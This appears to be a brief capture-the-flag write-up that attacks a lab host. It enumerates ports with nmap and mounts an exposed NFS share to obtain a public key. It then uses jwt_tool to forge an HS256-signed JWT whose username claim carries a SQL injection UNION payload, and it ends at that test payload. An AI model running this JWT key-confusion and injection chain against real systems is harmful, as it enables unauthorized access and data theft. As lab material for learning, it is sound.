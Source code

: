nmap

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

NFS 

```shell
showmount -e 192.168.216.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.216.222:/mnt/share /tmp/test_folder -o nolock
```

Finding a public key but don't know where to use it. 

We find an existing account `brain`.



Registering account on the web page and check the session is JWT. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) for testing.

JWT SQL injection

```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k public.pem
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

Our test payload

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1NTg3MzE4fQ.pi_Q8MWnXPtCDhgGcu5yQrjwuPWdgmyHnb7R5eqfBMsAx8UUb-jJ7rvw4bwbqNoucm8STXQweQ_VZwtXka2MCwVMbYSleb4HBa5glk7TdYfq6VATRLXgOU1hKEq1_bJnt5CZhZsBSpiupf2TetA1CeoOAP4Az8h7YAPRNGumJ-rP1z8G3M9uVhfgEJQce4OFNMfLRjFgynPlh9Ekg9ElzdGAUPmv_XjFQnEHLzICW5S6n_8b8siRZFSyNY3A-NcMT-c4D-LqM0WlU_IKdTXoL4vFOc88Yiw0mur51Nokz53xOvEJCEqWndPtOu-uTFKp_e3haNRllEHb3CFvuGi8sepuJil-sW0kZZ8zGtqf4nT4ET4Y6gGAw6qpXoon8ZdC_VfAauuh8gVm11JPbhbXbHsuYSKkdbOOd1p-SemWp9J8-QzB5vyIBql4av8OQ7SiQG9CUUNyg_YDzdPNW3GwzvlTbBArODb4L7BEsOvAsGdTSqimSPI7SWff3I2UdXvo7TfaLXShal_IAnMfh7C96WV8kGHPuRoAd7tikK72vNno2THv1JrvyL4aX3WJ84T3INDzInkNjCGexUk29Q31yZVG4eGZKF7Kbto-rXOryCHfg-JalDmzrOiCh14dDYl6o5YQv4XGFxBke7ucytBi5XO-BZSc8V2NCn9h2v8b88U -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k public.pem
```